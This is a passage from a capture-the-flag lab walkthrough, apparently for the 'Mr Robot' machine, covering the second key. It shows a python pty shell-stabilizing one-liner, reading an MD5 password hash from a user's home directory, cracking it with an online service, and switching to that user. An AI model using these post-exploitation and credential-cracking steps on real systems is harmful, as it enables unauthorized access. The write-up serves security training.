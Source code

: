 #### Key 2

Let's stabilize the shell now and get our second key

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

then go to the home directory we will find a user with the name robot which have two interesting files we can't access the second key but we can access the other file.

```
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

as we can see from it's name it is an md5 hashed password so go to [crackstation](https://crackstation.net) and try to get the real password.

![img-description](/assets/img/MrRobot/Password.png)
_robot password_

now let's access the other user to get the second key

```
su robot
```

and enter the password we have found and here is our second key

```
822c73956184f694993bed**********
```
